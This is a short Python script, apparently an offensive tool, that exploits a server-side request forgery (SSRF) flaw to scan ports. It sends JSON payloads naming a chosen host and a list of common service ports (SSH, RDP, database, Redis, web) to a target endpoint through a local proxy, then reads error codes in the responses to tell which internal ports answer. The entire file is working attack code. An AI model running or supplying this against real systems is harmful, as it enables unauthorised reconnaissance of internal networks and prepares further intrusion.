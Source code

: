 #!/usr/bin/python

import argparse
import requests
import time
# take ip range from user. 

ports = ['22','80','443', '1433', '1521', '3306', '3389', '5000', '5432', '5900', '6379','8000','8001','8055','8080','8443','9000']
payload_temp = '{{"url":"http://{host}:{port}/"}}'
proxies = {'http':'http://127.0.0.1:8080'}


parser = argparse.ArgumentParser()
parser.add_argument("-t","--target", help="Type URL", required=True)
parser.add_argument("-s","--ssrf", help = "ssrf targetting", required= True)
parser.add_argument("-i","--ipran", help = "IP range")
parser.add_argument("-v","--verbose", help="enable verbose mode", action="store_true", default=False)
args= parser.parse_args()



for port in ports:
    payload = payload_temp.format(host=args.ssrf,port=port)
    res= requests.post(url=args.target, data=payload, headers={'Content-Type':'application/json'}, proxies=proxies)
    time.sleep(.2)
    if '"code":"INTERNAL_SERVER_ERROR"' in res.text:
        print (port + "   INTERNAL_SERVER_ERROR")
    elif '"code":"FORBIDDEN"' in res.text:
        print (port + "   FORBIDDEN")
    else:
        print (res.text)
